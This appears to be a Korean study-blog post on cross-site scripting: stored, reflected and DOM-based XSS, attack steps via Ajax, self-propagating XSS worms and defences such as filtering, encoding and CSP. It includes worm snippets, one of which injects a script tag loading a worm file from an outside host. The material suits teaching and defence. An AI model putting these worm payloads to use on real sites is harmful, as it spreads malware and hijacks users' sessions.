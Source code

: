 ```yaml
---
title: Cross-Site Scripting Attack
tags: XSS Web-Hacking Cybersecurity
key: page-xss_attack
categories: [Cybersecurity, Web Hacking]
author: hyoeun
mathjax: true
mathjax_autoNumber: true
---
```


## The Cross-Site Scripting Attack
* Attacker가 victim's browser에 code를 inject시키면 공격을 할 수 있는데 victim이 attacker의 page에 접속할때마다 그 공격이 이루어질 수 있는 것이다. 하지만 sandbox protection 때문에 그 공격이 이루어지지 않는다.
* 하지만 target page에 공격 코드를 inject시키면 공격을 성공시킬 수 있는데 이것을 cross-site scripting(xss) attack이라고 부르는 것이다.
* 기본적으로 어떤 웹사이트에서 온 코드는 그 웹사이트에 관해서는 다 신뢰하고 실행하게 된다. 따라서 이 공격을 통해 그 웹사이트와 연관된 쿠키를 수정하거나 또 다른 리퀘스트를 날리거나 뭐든지 할 수 있는것이다. 특히 active session을 가지고 있으면 어떠한 것도 그 웹사이트 안에서는 다 허용한다.
* 따라서 공격자가 target website에 코드를 심어서 공격을 하는 것이다.
<br><br>

## Persistent(Stored) XSS Attack
* 악성 스크립트가 포함된 User input이 타겟 서버에 페이로드로써 저장되어 그 페이로드가 포함된 애플리케이션 부분에 액세스 하는 모든 사람이 악성 스크립트를 트리거 하게 되는 공격입니다.
* 예를들어 공격자가 자신의 프로필 수정란에 script code를 기입하고 그것을 db에 저장시킨다음 다른 사람들이 그 프로필을 보게 되면 injecte된 script code를 보게 되면서 그것을 실행하게 된다. 이것은 서버측에서 data로 저장할때 HTML markup을 제대로 sanitized하지 않았기 때문에 생기는 허점이다.
* 브라우저는 이러한 코드들을 서버에서 만든건지 다른 사람이 만든건지 구별할 수 없기 때문에 그 코드를 user의 privilege로 실행시켜버린다.
<br><br>

## Non-persistent(Reflected) XSS Attack
* 웹 애플리케이션이 request에 포함된 user input을 안전하게 sanitize를 하지 않고 악성 스크립트가 있는 채로 response를 해 악성 스크립트가 클라이언트에서 실행되는 공격기법이다.
* 주로 사용자에게 악성 URL을 배포하여 사용자가 그것을 클릭하도록 유도하여 클릭한 사용자의 브라우저에서 악성 스크립트가 실행되도록 한다.
<br><br>

## Dom-based XSS
* 공격자가 DOM에 페이로드를 주입해서 피해자의 브라우저가 HTML 페이지를 로드 할 때마다 악성 스크립트가 DOM 생성의 일부로 실행되면서 공격하는 기법이다. 페이지 자체는 변하지 않으나, 페이지에 포함되어 있는 브라우저측 코드가 DOM 환경에서 악성코드로 실행된다.
* 앞선 타입과는 다르게 서버와 관계없이 브라우저에서 발생하는 것이 차이점이다.
<br><br>

## What damage can XSS cause?
* Web defacing: JS code는 DOM APIs를 쓸 수 있기 때문에 hosting page의 DOM을 생산 혹은 제거, 변경 같은 것을 가능하게 하여 fake page를 만들수도 있고 형태 자체를 바꿔버릴 수 있다.
* Spoofing requests: JS code는 HTTP request도 가능하기 때문에 우리가 지금까지 얘기한것들의 예들로 fake user로 접근하여 서버에 fake user신분으로 의도치 않은 일들을 할 수 있다.
* Stealing information: Victim's private data(session cookie, 개인 정보 등)를 공격자에게로 쉽게 보낼 수 있다.
<br><br>

## XSS Attacks in Action
* 공격에 앞서 우선 target website가 어떤식으로 작동하는지를 우리가 코드를 심고자 하는 행위를 실행했을 때 HTTP header를 분석하면서 url 같은 것을 확인하고 이용한다.
* 공격할때는 스펠링 하나하나 잘 확인해야하고 target site마다 가지는 특성에 따라 공격 코드가 다 달라지기 때문에 정형화한 방식을 알려주기는 힘들다.
* 분석한 액션에 대한 url 분석만 잘 마치면 그 url의 패턴들에 따라 내용만 잘 넣어서 Ajax로 open(), setRequestHeader(), send()와 같은 함수들을 잘만 사용하면 공격에 성공할 수 있을 것이다.
<br><br>

## Achieving Self-Propagation
* 진짜 worm처럼 자가번식하면서 malware code를 퍼트리려면 DOM APIs를 통한 방식과 src attribute를 이용하여 link로 퍼트리는 방식이 있다.
### DOM Approach
* 웹 페이지가 만들어질때에는 브라우저측에서 Document Object Model(DOM)을 생성한다.
* DOM은 각 페이지의 내용들을 DOM nodes형태로 tree를 구성한다.
* 이 방식으로 공격할때에는 우리는 JS code를 DOM API를 통해 node 이름(id)을 부여하고 document.getElementByID()를 통해 그 노드를 불러오기만 하면 공격할 수 있다. 별거 없고 그냥 API 쓰면 DOM 접근 방식인거다. 코드를 다시 쓰는게 아니라 elegance하게 DOM API로 불러서 그 전체 코드를 content에 실어서 보내면 된다.
    ```javascript
    <script id="worm">

    // Use DOM API to get a copy of the content in a DOM node.
    var strCode = document.getElementById("worm").innerHTML;

    // Displays the tag content
    alert(strCode);

    </script>
    ```
### Link Approach
* 이거는 js파일을 그대로 불러서 src에다가 넣는것이다.
    ```javascript
    var warmCode = encodeURIComponent(
        "<script type=\"text/javascript\" "
        + "src=\"http://example.com/xss_worm.js\">";
        + "</" + "script>");

    // Set the content for the description field(이거는 특정 웹사이트에서 적용하는 방식을 이용한 것일뿐.)
    var desc="&description=SAMY is MY HERO" + wormCode;

    //(the rest of the code is the same as that in the previous approach)
    ..
    ```
* 위의 방식으로 js 파일(worm)을 넣기만 하면 된다.
* 위에서 </ script> 부분을 따로 스트링 처리 하는 이유는 만약 한 곳에 처리해버리면 firefox같은 브라우저는 하나로 인식해서 제대로 코드 전달이 안되기 때문이다. 브라우저 파싱 방식에 따라 달라질 것이다.
<br><br>

## Preventing XSS attacks
* XSS가 생기는 이유는 data와 code를 분리하지 않아서이다.
* 하지만 HTML markup을 지원하는 입장에서 분리하는게 결코 쉬운일은 아니다.
* user input으로 부터 코드를 없애거나 가능하면 그것을 ineffective하게 바꾸는 2가지의 방식이 있다. 보통 아래 2가지 방법을 섞어서 XSS를 예방한다.
* IPS, IDS, 방화벽으로도 방지할 수 없기 때문에 단순히 문자를 필터링 하는 것과 같은 방법만이 존재한다.

### Filter Approach
* user input으로 부터 코드를 지운다는 것인데 이게 쉽지 않다.
* script 태그 외에 여러가지 방법으로 javascript를 작동시킬 수 있는 방법들이 존재한다.
* 이건 만드는게 쉽지 않기 때문에 jsoup와 같은 오픈소스 코드를 사용해도 좋다.

### Encoding Approach
* Code들을 브라우저가 볼 수 있는 방식(\&\lt; 같이 < 대신에 보여지는 방식)으로 바꾸는 것이다.
* 브라우저가 representations하는 방식이 된다는 것은 코드는 실행되지 않는다는 것을 의미한다.

### 생각해볼 문제
* 위 방식들을 사용할 경우 white list가 나을것인가 black list가 나을 것인가?
* 경우에 따라 각각 다르겠지만 white list가 일반적으로 작성하기 쉽고(알파벳과 숫자 혹은 특수문자 몇개 정도만 허용하게 하면 된다.) 사용자가 예상 범위 안에서 사용할 수 있게 만들 수 있어서 좀 더 나을 수 있다.

### Content Security Policy(CSP) 사용
* 스크립트 실행에 대한 정책을 설정해 예방하는 방법. 어떤 웹 리소스만 허용할지 정의.
* 출처가 자기 서버인 스크립트만 실행 될 수 있도록 한다.  

## Refrence
* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)
* [설명이 풍부한 자료](https://excess-xss.com/)
